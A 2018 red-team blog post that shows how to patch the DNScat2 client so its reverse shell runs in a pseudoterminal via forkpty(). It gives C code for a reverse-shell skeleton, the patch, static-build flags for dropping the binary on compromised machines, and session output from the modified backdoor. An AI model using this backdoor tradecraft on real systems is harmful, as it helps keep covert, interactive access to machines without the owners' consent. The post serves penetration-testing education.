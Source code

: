 ```yaml
---
layout: post
title: Beyond pty.spawn - use pseudoterminals in your reverse shells (DNScat2 example)
date: 2018-05-08 12:00:00
categories: posts
en: true
description: Quick article about how to improve well-known tools used in pentests. Forkpty() FTW!!
keywords: "forkpty, pseudoterminal, shell, backdoor, redteam, pentest"
authors:
    - X-C3LL
---
```



&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Something that boils me since few years ago is the fashion of using "pty.spawn" and similar tricks to get a pseudoterminal. You does not always have python installed in the machine that you just compromised, so if you are going to drop a custom binary in that machine there is no reason to not to do the things "well". Without a pty, stuff like doing a ssh to other server, using sudo, vim, etc. is a pain in the ass. Of course there are tons of tricks to avoid this issues, but it is far better if we can avoid to use external help when we just can run a child process inside a pty just editing few lines. In this post we are going to edit a well-known tool [DNSCat2](https://github.com/iagox86/dnscat2) in order to obtain a shell inside a pty.


## From fork() to forkpty()

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Almost every tool or code snippet used to obtain a reverse shell uses a similar skeleton that we can simplify to something like this:

```c
...
pid = fork();
if (pid == -1) {
	fprintf(stderr, "F*cked!\n");
}

if (pid == 0) { // Child process...
	//Magic is a socket, a pipe, whatever...
	dup2(magic, STDIN_FILENO);
	dup2(magic, STDOUT_FILENO);
	dup2(magic, STDERR_FILENO);
	execlp("/bin/sh", "pwned", NULL);
	exit(0);
}

//Daddy's code...
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can use fork() to fork our process and call the /bin/sh binary, or we can call the cool __forkpty()__. Forkpty() is where all the magic lies:

```
DESCRIPTION
  The openpty() function finds an available pseudoterminal and returns file descriptors for the master and slave in amaster and aslave.  If name is not NULL, the filename of the slave is returned in name.  If termp is not NULL, the terminal parameters of the slave will be set to the values in termp.  If
  winp is not NULL, the window size of the slave will be set to the values in winp.

  The login_tty() function prepares for a login on the terminal fd (which may be a real terminal device, or the slave of a pseudoterminal as returned by openpty()) by creating a new session, making fd the controlling terminal for the calling process, setting fd to be  the  standard  input,  output,  and
  error streams of the current process, and closing fd.

  The  forkpty()  function  combines openpty(), fork(2), and login_tty() to create a new process operating in a pseudoterminal.  The file descriptor of the master side of the pseudoterminal is returned in amaster, and the filename of the slave in name if it is not NULL.  The termp and winp arguments, if
  not NULL, will determine the terminal attributes and window size of the slave side of the pseudoterminal.
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
So if we use forkpty(), when we do our execlp("/bin/sh"...) the shell process will be run inside a pseudoterminal. No more pty.spawn, expect, script, stty...

## Improving DNScat2
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
It is the moment to put our hands dirty. Download the code from github (https://github.com/iagox86/dnscat2/ ) and vim the file __client/drivers/driver_exe.c__.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
First we are going to add the includes needed:

```c
...
#include <pty.h>
#include <termios.h>
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Search the line `driver->pid = fork();` and edit it to use forkpty() (the original code is commented):

```
/*driver->pid = fork();*/  
   int terminalfd; // We are going to read & write to our child through it

   driver->pid = forkpty(&terminalfd, NULL, NULL, NULL); 
   if(driver->pid == -1)
   {  
LOG_FATAL("exec: couldn't create process (%d)", errno);    
exit(1);
   }  

   /* If we're in the child process... */    
   if(driver->pid == 0)
   {  
/* Copy the pipes.
if(dup2(driver->pipe_stdin[PIPE_READ], STDIN_FILENO) == -1)
  nbdie("exec: couldn't duplicate STDIN handle");   

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDOUT_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDOUT handle");  

if(dup2(driver->pipe_stdout[PIPE_WRITE], STDERR_FILENO) == -1)  
  nbdie("exec: couldn't duplicate STDERR handle");  

 Execute the new process.
  */  
execlp("/bin/sh", "sh", "-c", driver->process, (char*) NULL);   

/* If execlp returns, bad stuff happened. */   
LOG_FATAL("exec: execlp failed (%d)", errno);  
exit(1);
   }  
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We need to add our "terminalfd" to the "driver" structure:

```c
/* Add the sub-process's stdout as a socket. */      
   /*      
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
  */       
  
   struct termios terminal;  
   tcgetattr(terminalfd, &terminal);  // Get the attributes to change few of them
   terminal.c_lflag &= ~ECHO; 
   terminal.c_lflag &= ~ICANON;  
   tcsetattr(terminalfd, TCSANOW, &terminal);  // Set again the attributes
  
   driver->pipe_stdout[PIPE_READ] =  terminalfd; // Use it to read the output of our child  
   driver->pipe_stdin[PIPE_WRITE] = terminalfd; // Use it to write to the input of our child 
  
   select_group_add_socket(driver->group, driver->pipe_stdout[PIPE_READ], SOCKET_TYPE_STREAM, driver);        
   select_set_recv(driver->group,driver->pipe_stdout[PIPE_READ], exec_callback);   
   select_set_closed(driver->group,       driver->pipe_stdout[PIPE_READ], exec_closed_callback);     
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Lastly we need to add the flags -static (if we want a static compilation just ready to work when it is dropped in a compromised machine) and -lutil to link the libraries needed.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
 `make`. Et voilà!

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When we try to ssh other server using the original version (just download from github and compile), we see the next error message:
```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> Pseudo-terminal will not be allocated because stdin is not a terminal.

sh (localhost.localdomain) 2> 
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
With our modified version, everything works like a charm:

```
command (localhost.localdomain) 1> window -i 2
New window created: 2
history_size (session) => 1000
Session 2 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

sh-4.2$
sh (localhost.localdomain) 2> ssh harlock@localhost
sh (localhost.localdomain) 2> harlock@localhost's password: FunkyPassword
sh (localhost.localdomain) 2>
Last login: Wed May  9 09:21:41 2018

[harlock@localhost]->~ ⌚ 13:58:48
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Nice :)!

## Final words

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We used DNSCat2 as example because it is a really cool project. You can extrapolate the modus operandi and use it in other projects.
As I always say, if you find any typo or wanna comment something, feel free to reach me at twitter [@TheXC3LL](https://twitter.com/TheXC3LL)
